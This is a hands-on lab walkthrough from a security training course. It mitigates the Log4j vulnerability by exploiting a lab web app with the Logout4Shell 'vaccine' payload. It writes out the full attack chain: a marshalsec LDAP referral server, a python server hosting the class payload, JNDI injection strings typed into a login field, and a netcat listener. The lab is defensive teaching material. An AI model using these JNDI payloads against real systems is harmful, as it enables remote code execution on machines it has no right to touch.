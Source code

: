 #### Mitigation Lab Overview

In this lab, you are a threat hunter asked to test a Log4J exploit script and then take measures to mitigate the vulnerability. You will launch a lab and use the instructions that follow below. Having previously left the lab open, we will begin where we left off. (If you didn't leave the lab open, you can open it again below.)

![Cybrary - Log4j](https://images.ctfassets.net/kvf8rpi09wgk/1QC1JwQ1y5hyicpqS3bpuf/4199ff9e436db3f2b3e9a8896db85150/Log4J_Vulnerability.png?w=450)

VIRTUAL LAB

### Cybrary - Log4j

#### By Infosec Learning

1 hour 30 minutes

This virtual lab is provided by a third-party partner and will launch in a new browser tab. It may not meet all accessibility standards. Please see our [help center This link opens a new window](https://help.cybrary.it/hc/en-us/articles/1500002668302-Cybrary-s-Commitment-to-Web-Accessibility)for details.

Launch Virtual Lab

#### Lab Instructions

Having completed the previous lab and left the lab open, we will jump right in - if the screensaver has kicked in and locked you out, re-authenticate into our kali box with the previous credentials:

- User: kali
- Password: kali

If a web browser is open when you log in and says to restore your session, simply close the web browser to proceed.

Also, be sure to close all the previously opened terminal windows before you begin.

![Log4J - 2.2.1 - Log in to Kali Host](https://images.ctfassets.net/kvf8rpi09wgk/6IT8aUfaAgHl2vxgycXlZ/730674c27c1f853ee750482c75b188d6/Log-into-Kali.png)

Image 2.2.1 - Log in to Kali Host

Since this is a mitigation lab, we are going to be mitigating the Log4J vulnerability but with a catch: we will be using the vulnerability to exploit the system and patch it at the same time! This is a great way to validate that the vulnerability exists, while also actively remediating the flaw.

Once authenticated, open up a terminal if you don’t already have one up by right-clicking and selecting **Open Terminal Here**.

Once we have a terminal open, we are going to navigate to the location of our 'innoculation' payload:

```
cd ~/Desktop/Logout4Shell/target/classes
```

If you want to observe the contents of the folder or inspect the class files we are about to use, type:

```
ls -la
```

![Inspect Class Files](https://images.contentful.com/kvf8rpi09wgk/2pBCskpttXawvRTinbd65Z/fd34a38a911255db19222c87069b9852/Log4J_Image_2.2.2.png)

Image 2.2.2 - Inspecting the class files

Once we have a terminal up, we can see the class files. Like we previously did, we are going to start a python server to listen for our connections by typing:

```
python3 -m http.server 8888
```

![Python Listening](https://images.contentful.com/kvf8rpi09wgk/4JxJkx9hRTxbFLZtZT1y0f/afa3d8e6a216fd38cbc1ae80c26eca10/Log4J_Image_2.2.3.png)

Image 2.2.3 - Starting a python server for listening to connections

Now that we have our python server listening and ready to distribute our ‘vaccine’ payload, we will navigate to the marshelsec folder (as with the previous lab) and then execute the LDAP server from the marshelsec jar. Create a new tab by clicking on **File**, then selecting new tab. Then type:

```
cd ~/Desktop/marshalsec/target

java -cp marshelsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer 

“http://192.168.1.50:8888/#Log4jRCEPersistent”
```

![marshelsec jar](https://images.contentful.com/kvf8rpi09wgk/5QiyMaEOyOYzMdboRbsSQ4/961181afc5e755e6a515ef6df7d57de2/Log4J_Image_2.2.4.png)

Image 2.2.4 - Executing the LDAP server from the marshelsec jar

Now that we have the payload setup, all that is left is to actually trigger the Log4j vulnerability using our previous attack string. We will navigate to the same vulnerable application location and enter the payload `${jndi:ldap://192.168.1.50:1389/a}` again.

Open a browser and type in

```
http://192.168.1.25:8080
```

![Web Browser](https://images.ctfassets.net/kvf8rpi09wgk/1ZyMe1WtolcF18lb0jcVD5/419ed48d1753ccb4335d5f04e0535e45/Open_web_browser_to_IP_address.png)

Image 2.2.5 - Web Browser

Once there, in the **Username** field, enter the following attack string and click **Login**:

```
${jndi:ldap://192.168.1.50:1389/a}
```

Now, observe the LDAP query and payload pulldown:

![LDAP query and payload pulldown](https://images.contentful.com/kvf8rpi09wgk/6OwHzCITgYdxbYaQOM7lYo/2eac1ac9c564273c9bcfd55d60c0b0e1/Log4J_Image_2.2.6.png)

Image 2.2.6 - Obeserving the LDAP query and payload pulldown

We will now click our first tab and confirm the pulldown of our class:

![Class Pulldown](https://images.contentful.com/kvf8rpi09wgk/7JXQLragLHaK8Z78F0fGNr/07e4e4480b2efabd2e8a40c779fe0766/Log4J_Image_2.2.7.png)

Image 2.2.7 - Confirming the pulldown of our class

Now that we have successfully exploited the system and pushed our ‘vaccine’ payload to mitigate the vulnerability, we will attempt to exploit the system again. Create a new tab (**File, New Tab**), and open a netcat listener by typing:

```
nc -lvp 666
```

![netcat listener](https://images.contentful.com/kvf8rpi09wgk/SSC27wJDkGoDYLaXFTXwT/a6228526fca35722ee38176b46e7cf48/Log4J_Image_2.2.8.png)

Image 2.2.8 - Open a Netcat Listener

Our last step is to attempt to exploit the web application with the following test attack string:

```
${jndi:ldap://192.168.1.50:666}
```

Type the string into the same field as in the previous step and observe that we get no netcat connection:

![Web App Exploit](https://images.ctfassets.net/kvf8rpi09wgk/2MvnjrbBSreumRVFPeSZZP/7e1231e8460f9d9abaa83cb21829f7ee/Screen_Shot_2022-01-11_at_5.57.13_PM.png)

Image 2.2.9 - Exploiting the web application + no netcat connection

Congratulations! You have successfully mitigated the Log4j vulnerability by using the actual exploit itself. Pretty cool huh? Great work!

For extra credit, feel free to look at the code for the class file we used. We can identify the location of “fullyVaccinate” within the actual template used for the lab:

```

nano ~/Desktop/Logout4Shell/src/main/java-template/Log4jRCE.java
```

![Class File Template](https://images.contentful.com/kvf8rpi09wgk/vybwRZpV0ijjNHkhuvJW0/408555776b4b001d92482bebce7a3b38/Log4J_Image_2.2.10.png)

Image 2.2.10 - Examining the class file within the lab template

Next, we will summarize what we have done, and you can look over a list of the supplemental links we've provided to do further reading and exploring related to the Log4J vulnerability.
